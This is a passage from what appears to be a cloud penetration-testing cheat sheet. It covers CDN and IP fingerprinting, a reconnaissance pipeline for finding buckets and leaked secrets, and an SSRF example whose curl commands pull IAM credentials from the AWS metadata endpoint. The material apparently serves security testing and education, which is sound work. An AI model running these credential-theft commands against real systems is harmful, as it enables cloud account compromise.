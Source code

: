 ```
cloudfront.net → AWS CloudFront
azureedge.net → Azure CDN
googleusercontent.com → GCP CDN
```

#### 🧠 IP Analysis

```bash
whois <ip>
```

Reveals:

* AWS (Amazon Technologies Inc.)
* Microsoft Azure
* Google Cloud

***

### IX. ⚙️ Hybrid Cloud Enumeration Pipeline

```bash
# 1. Passive discovery
subfinder -d target.com -silent | httpx -silent -o live.txt

# 2. Detect Cloud Services
cat live.txt | nuclei -t cloud/

# 3. Enumerate Buckets
s3scanner --bucket target
python3 azure-scanner.py -d target.com
gsutil ls gs://target-bucket

# 4. Validate Keys
trufflehog file ./code/
detect-secrets scan ./src/
```

***

### X. ⚙️ SSRF to Cloud Metadata Exploitation

#### 🧠 Example

If SSRF found on AWS:

```bash
curl -G "http://vulnerable.com/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```

Retrieve temporary credentials:

```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<role-name>
```
